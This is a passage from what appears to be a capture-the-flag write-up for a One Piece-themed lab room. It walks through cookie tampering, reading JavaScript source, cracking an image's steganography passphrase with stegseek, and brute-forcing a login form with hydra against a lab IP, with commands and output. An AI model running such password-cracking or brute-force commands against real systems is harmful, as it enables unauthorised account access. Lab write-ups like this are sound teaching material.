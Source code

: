 Use `strings` again and find our next destination. it's `whole cake` if you wonder. We get input field and a button. I immediately fire burp suite and intercept the request. Funny how it's a `cookie` we have to tamper with. I had a terrible experience with those encoded texts (mostly rabbit holes...so many rabbit holes)

We get the 2nd poneglyph then focus on "random island" instead...Seems like `buggy the clown` is our friend now.

As checking the source code is very important here we check everything...The css, the javascript...Everything! We find our next destination in `brain_teaser.js`. It's `Onigashima` where we fight `Kaido of the beasts`. We have two options. A login form and an upload form. Also a hint about "bruteforce" or something (I don't like bruteforcing much)

I was stuck again but once again I got a little help about steganography on the kaido image

```bash
└─(15:16:50 on master ✭)──> stegseek -wl /usr/share/wordlists/rockyou.txt -sf kaido.jpeg                                             ──(mar.,janv.16)─┘
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "imabeast"
[i] Original filename: "kaido_login.txt".
[i] Extracting to "kaido.jpeg.out".
```

## Exploitation

{{< post-img src="kaido.jpeg" alt="kaido" style="width: 200px;" >}}

Cool. The username to use is known we need the password now...maybe...bruteforce?

```bash

└─(15:25:11 on master ✭)──> hydra -l K1ng_0f_th3_B3@sts -P "/usr/share/wordlists/rockyou.txt" 10.10.135.85 http-post-form "/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-16 15:26:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.135.85:80/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR
[STATUS] 32.00 tries/min, 32 tries in 00:01h, 14344374 to do in 7471:02h, 16 active
[STATUS] 32.00 tries/min, 96 tries in 00:03h, 14344336 to do in 7471:01h, 16 active

...

```

quite long...You need a lot of patience here (damn I hate bruteforce)

After getting the password we login and get the 3rd poneglyph also this...

"You succeed to run away and there is only one Road Poneglyph left to find to be able to reach Laugh Tale.
Unfortunately, the location of this last Poneglyph is unspecified."
